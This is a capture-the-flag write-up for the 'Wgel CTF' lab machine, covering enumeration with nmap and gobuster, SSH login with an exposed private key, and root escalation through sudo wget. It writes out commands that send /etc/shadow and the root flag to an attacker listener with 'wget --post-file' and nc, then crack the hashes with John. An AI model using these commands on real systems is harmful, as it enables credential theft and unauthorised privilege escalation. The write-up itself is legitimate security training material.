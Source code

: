 # Wgel CTF

## Reconnaissance

ip address : 10.10.35.232

## Scanning & Enumeration

* Nmap Scanning

```shell
nmap -A -T4 -p- -oN nmap/all_port 10.10.35.232
```

scan result [here](nmap/all_port)
open port are :
number | service | version
--- | --- | ---
22 | ssh |  OpenSSH 7.2p2
80 | http | Apache httpd 2.4.18 ((Ubuntu))

found a possible username at the default page : jessie
![uname](img/username.png)
  
* Gobuster directory finding

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.35.232
```

we found the /sitemap directory
<http://10.10.35.232/sitemap/>

change the word list and scan again

```shell
gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u http://10.10.35.232/sitemap/
```

we got somme interesting finding
![Common Finding](img/common-finding.png)

what help us to find a ssh key [id_rsa](jessie_id_rsa)

## Exploitation

* try  ssh creds
  
we try the id_rsa key en ssh username we already found :

```shell
ssh -i jessie_id_rsa 10.10.35.232
```

lucky for us the key is not encrypted and we got a ssh shell

![ssh shell](img/ssh-access.png)

we can now grab the user flag.

### Privilege escalation

Now it's time to get root

* sudo -l
we got a easy attack vector
![root vect](img/root-vect.png)

* the shadow file
  
  [GTFObin](https://gtfobins.github.io/gtfobins/wget/) get us every thing we need to exploit it.

set up nc to listen for the shadow file

```shell
nc -lvp 80 > shadow
```

send the shadow file

```shell
sudo /usr/bin/wget --post-file=/etc/shadow 10.8.2.244
```

we got our copy of the [shadow file](shadow)

more details info can be found [here](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)

* Crack the Hash with John

```shell
john shadow --wordlist=/usr/share/wordlists/rockyou.txt
```

the cracking take long time to find the passowrd so, i decided to cancel it and just grab the root file.

* Grab the root file
  
we proceed as for the shadow file

```shell
sudo /usr/bin/wget --post-file="/root/root_flag.txt" 10.8.2.244
```

we know have the root flag
